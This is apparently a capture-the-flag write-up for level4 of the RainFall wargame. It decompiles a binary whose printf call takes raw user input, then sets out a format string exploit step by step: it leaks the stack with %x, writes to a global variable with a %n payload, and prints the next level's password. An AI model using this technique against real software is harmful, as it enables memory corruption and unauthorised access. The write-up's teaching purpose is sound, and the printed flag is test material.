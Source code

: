 ## Basic analysis
There is **level4** binary waiting for us, as in previous level. When examined, it apparently doeas the same thing as in the level3:
~~~shell
./level4
42 let me pass
42 let me pass
~~~
Waits for stdin and prints it back. Let's use **Ghidra** again to look inside:
~~~C
void main(void)

{
  n();
  return;
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void p(char *param_1)

{
  printf(param_1);
  return;
}
~~~
As we can see, the program does the same thing as in level3, just using one more function to print the output. There is still the variable **m**
waiting to be compared to **16930116**. It is at the **0x08049810** memory position.

## Format string attack
We will do format strimg attack again, we just use another formatter as the value of 16930116 is too long. It will be the **%d**, that let us do
dynamic field with setting - like that: **%16930116d**. The rest will be the same as in level3:

**Step 1**: Find the position in the stack:
~~~shell
level4@RainFall:~$ python -c 'print "AAAA" + " %x" * 20' > /tmp/exploit
level4@RainFall:~$ cat /tmp/exploit - | ./level4
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
~~~
Found on 12th position.

**Step 2**: Payload construction: 
1. memory address of m
2. formatter minus four bytes for memaddress of m + positioning on 12 position in stack: **%16930112d%12$n**
~~~shell
level4@RainFall:~$ python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d%12$n"' > /tmp/flag4
level4@RainFall:~$ cat /tmp/flag4 | ./level4
[...]
                                       -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
~~~

~~~
